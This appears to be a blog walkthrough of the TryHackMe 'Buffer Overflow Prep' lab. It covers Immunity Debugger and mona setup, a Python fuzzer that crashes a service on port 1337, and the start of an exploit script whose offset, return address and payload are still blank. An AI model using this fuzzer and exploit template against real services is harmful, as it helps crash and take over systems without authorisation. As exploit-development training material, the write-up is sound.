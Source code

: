 ```yaml
---
title: TryHackMe BufferOverflow
description: Buffer Overflow Prep
categories:
 - tryhackme

tags: tryhackme Bufferoverflow

---
```


## Summary

Practice stack based buffer overflows!


## Starting Immunity Debugger

[[/Bufferoverflow-screenshot/Screenshot_2021-08-13_04_01_12.png]]
![](https://raw.githubusercontent.com/greenway71/greenway71.github.io/340df137c36ee7d428465ec76f36121a57837ae7/Bufferoverflow-screenshot/Screenshot_2021-08-13_04_01_12.png)


Right-click the Immunity Debugger icon on the Desktop and choose "Run as administrator".


![](https://github.com/greenway71/greenway71.github.io/blob/340df137c36ee7d428465ec76f36121a57837ae7/Bufferoverflow-screenshot/Screenshot_2021-08-13_04_02_29.png)

When Immunity loads, click the open file icon, or choose File -> Open. Navigate to the vulnerable-apps folder on the admin user's desktop, and then the "oscp" folder. Select the "oscp" (oscp.exe) binary and click "Open".

## Mona Configuration

Run these command in the input box at the bottom of the immunity Debugger window.

```
!mona config -set workingfolder c:\mona\%p
```
![](https://github.com/greenway71/greenway71.github.io/blob/340df137c36ee7d428465ec76f36121a57837ae7/Bufferoverflow-screenshot/Screenshot_2021-08-13_04_03_54.png)


## Fuzzing

Run this python script to fuzz

```
#!/usr/bin/env python3

import socket, time, sys

ip = "MACHINE_IP"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)

```

![](https://github.com/greenway71/greenway71.github.io/blob/340df137c36ee7d428465ec76f36121a57837ae7/Bufferoverflow-screenshot/Screenshot_2021-08-13_04_04_52.png)

Basically, this script is going to send increasingly long strings comprised of As. If the server gets crashed, the fuzzer should exit with an error message.
![](https://github.com/greenway71/greenway71.github.io/blob/340df137c36ee7d428465ec76f36121a57837ae7/Bufferoverflow-screenshot/Screenshot_2021-08-13_04_05_45.png)

![](https://github.com/greenway71/greenway71.github.io/blob/340df137c36ee7d428465ec76f36121a57837ae7/Bufferoverflow-screenshot/Screenshot_2021-08-13_04_06_06.png)

## Crash Replication & Controlling EIP
```
import socket

ip = "MACHINE_IP"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

